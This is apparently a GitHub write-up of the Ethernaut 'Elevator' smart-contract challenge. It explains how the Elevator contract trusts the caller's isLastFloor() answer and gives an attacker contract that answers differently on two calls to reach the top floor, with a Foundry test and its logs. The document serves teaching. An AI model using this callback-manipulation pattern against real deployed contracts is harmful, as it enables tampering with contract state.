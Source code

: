 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

<br>

# What You're Supposed to Do?

in `11-Elevator` Challenge, You Should Try To find a Way to Go to Top of the Building Successfully Using the Elevator.

`11-Elevator` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2)

<br>

# How did i Complete This Challenge?

<br>

I made a little change `Elevator` Contract Which is, i Changed Interface Name from `Building` to `IBuilding`.

So Now Looks Like This:

```javascript
    contract Elevator {
        bool public top;
        uint256 public floor;

        function goTo(uint256 _floor) public {
            IBuilding building = IBuilding(msg.sender);


            if (!building.isLastFloor(_floor)) {
                floor = _floor;
                top = building.isLastFloor(floor);
            }
        }
    }
```

When We Analyze the `Elevator` Contract, We See that it uses an interface. Right Away, You Should Ask Yourself: What's The Purpose of Using Interface in This Contract or Even in Soliidty?

One of the Main Reasons is to Interact With Smart Contracts Specific Functions But Using Less Gas.

Now When You See This line: `IBuilding building = IBuilding(msg.sender)`, it means the `msg.sender` is a Contract, Which We Use a Interface to Interact with `isLastFloor()` function.

Now This `isLastFloor` Function it Should Work in a Way to Successfully Pass the If Statement. Since `isLastFloor()` Returns a Boolean Value and the If Statement itself Requires the
condition to be `true`, in order to Execute Rest of the Code, this Indicates that returned value from `isLastFloor()` function, should be `false` and then we flip it back to `true` When
we use `!` with `false`. (`if (!false == true) {execute rest of the code}`)

Now What the Contract Should do is return `true` if it's Last Floor of the Building and return `false` if it's not. (kinda)

But One thing You Probably Didn't Notice is, if the `_floor` number we pass in, is actually the Last Floor of the Building, it will return `true` and When We Combine `!` with `true` (`!true`) it will flip back to `false` which the condition of the if statement will be `false`, resulting in Not Executing the Rest of the code inside the if statement.

What Attacker Can do Here is, if `_floor` number is Passed in is the Last Floor, Return `false` first time, so the code inside the if statement get's executed and return `true` second time
if the `_floor` Number Passed in, is The Last Floor of the Building.

So Basically We Want this Line `if (!building.isLastFloor(_floor))}` condition equals to `true` by `isLastFloor()` function returning `false` and `top = building.isLastFloor(floor)` to be
`true`.

So it looks Like this:

```javascript
    if (!building.isLastFloor(_floor)) {    
        floor = _floor;
        top = building.isLastFloor(floor);
    }

    if (!false) {    
        floor = _floor;
        top = true;
    }
```

Attacker Can Use Similar Contract Like This In Order to Go Top Of the Building Successfully:

```javascript
    contract Building is IBuilding {

    Elevator elevator;
    uint256 public lastFloor = 10;
    bool isFirstCall = true;

    constructor(Elevator _elevator) {
        elevator = _elevator;
    }

    function useElevator(uint256 _floor) external {
        elevator.goTo(_floor);
    }

    function isLastFloor(uint256 _floor) external returns (bool isLastFloorBoolean) {

        if (_floor != lastFloor) {
            isLastFloorBoolean = false;
        } else if (_floor == 10) {

            if (isFirstCall) {
                isFirstCall = false;
                return false;

            } else if (!isFirstCall) {
                isFirstCall = true;
                return true;

            }
        }
    }
}
```


Here's the Test i Wrote inside the `Elevator.t.sol` Which You Can Run to Exploit the `Elevator` Contract:

```javascript
        function testElevatorIsWorkingCorrectly() external {
        Building building = new Building(elevator);
        
        console.log("The Last Floor in this Building is 10.");
        console.log("Lets Use Elevator To Go To Floor 3.");

        building.useElevator(3);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 3);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), false);


        console.log("Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.");

        building.useElevator(10);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 10);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), true);
    }
```

You Can Run it with Command Below:

```javascript
    forge test --match-test testElevatorIsWorkingCorrectly -vvvv
```

Take a Look at the `Logs`:

```javascript
    Logs:
        The Last Floor in this Building is 10.
        Lets Use Elevator To Go To Floor 3.
        We Are Currently On Floor:  3
        is This the Top of the Building?  false
        Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.
        We Are Currently On Floor:  10
        is This the Top of the Building?  true
```
